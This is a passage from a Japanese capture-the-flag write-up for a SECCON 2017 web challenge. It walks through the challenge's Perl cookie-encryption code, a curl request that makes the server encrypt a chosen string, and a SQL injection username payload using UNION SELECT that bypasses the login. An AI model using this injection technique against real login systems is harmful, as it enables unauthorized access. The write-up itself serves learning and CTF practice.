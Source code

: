 
<p>この暗号化の処理が外部ファイルに実装されてるらしく、わからなかった。</p>

<p>どうにか暗号化のロジックを盗めないかコードを眺めると以下の部分で同じ暗号化処理をしてることに気づく。</p>

<pre class="code lang-perl" data-lang="perl" data-unlink><span class="synStatement">print</span> <span class="synIdentifier">$q-&gt;header</span>(<span class="synConstant">-charset</span>=&gt;<span class="synConstant">'UTF-8'</span>, <span class="synConstant">-cookie</span>=&gt;
  [
    <span class="synIdentifier">$q-&gt;cookie</span>(<span class="synConstant">-name</span>=&gt;<span class="synConstant">'CGISESSID'</span>, <span class="synConstant">-value</span>=&gt;<span class="synIdentifier">$s-&gt;id</span>),
    (<span class="synIdentifier">$q-&gt;param</span>(<span class="synConstant">'save'</span>) <span class="synStatement">eq</span> <span class="synConstant">'1'</span> ? <span class="synIdentifier">$q-&gt;cookie</span>(<span class="synConstant">-name</span>=&gt;<span class="synConstant">'remember'</span>, <span class="synConstant">-value</span>=&gt;<span class="synIdentifier">&amp;encrypt</span>(<span class="synIdentifier">$user</span>), <span class="synConstant">-expires</span>=&gt;<span class="synConstant">'+1M'</span>) : <span class="synStatement">undef</span>)
  ]),
  <span class="synIdentifier">$q-&gt;start_html</span>(<span class="synConstant">-lang</span>=&gt;<span class="synConstant">'ja'</span>, <span class="synConstant">-encoding</span>=&gt;<span class="synConstant">'UTF-8'</span>, <span class="synConstant">-title</span>=&gt;<span class="synConstant">'SECCON 2017'</span>, <span class="synConstant">-bgcolor</span>=&gt;<span class="synConstant">'black'</span>);
  <span class="synIdentifier">$user</span> = <span class="synIdentifier">&amp;decrypt</span>(<span class="synIdentifier">$q-&gt;cookie</span>(<span class="synConstant">'remember'</span>)) <span class="synStatement">if</span>(<span class="synIdentifier">$user</span> <span class="synStatement">eq</span> <span class="synConstant">''</span> &amp;&amp; <span class="synIdentifier">$q-&gt;cookie</span>(<span class="synConstant">'remember'</span>) <span class="synStatement">ne</span> <span class="synConstant">''</span>);
</pre>


<p>解説すると<code>save=1</code>をPOSTパラメータ付与すると<code>user</code>パラメータの値を暗号化し、<a class="keyword" href="http://d.hatena.ne.jp/keyword/Cookie">Cookie</a>に<code>remember</code>の<a class="keyword" href="http://d.hatena.ne.jp/keyword/value">value</a>としてセットしてる。
なので以下の<a class="keyword" href="http://d.hatena.ne.jp/keyword/curl">curl</a>コマンドで好きな文字列を暗号化させることができる。</p>

<pre class="code" data-lang="" data-unlink>curl -X POST -d &#34;user=password&amp;pass=password&amp;login=Login&amp;save=1&#34; -D - http://sqlsrf.pwn.seccon.jp/sqlsrf/index.cgi</pre>


<p>このレスポンスから<code>'password'</code>文字列を暗号化した文字を盗んだ。値は<code>760de578d5d608fb420085b7697479ee</code></p>

<p>その上で以下のログイン情報で認証突破。</p>

<ul>
<li>Username: <code>'
AND 1=2 union select '760de578d5d608fb420085b7697479ee'--</code></li>
<li>Password: <code>password</code></li>
</ul>


<p><a class="keyword" href="http://d.hatena.ne.jp/keyword/SQL%A5%A4%A5%F3%A5%B8%A5%A7%A5%AF%A5%B7%A5%E7%A5%F3">SQLインジェクション</a>で前半のクエリの結果を強制的に空にし、UNIONで<code>'password'</code>文字列を暗号化した値をくっつけている。</p>
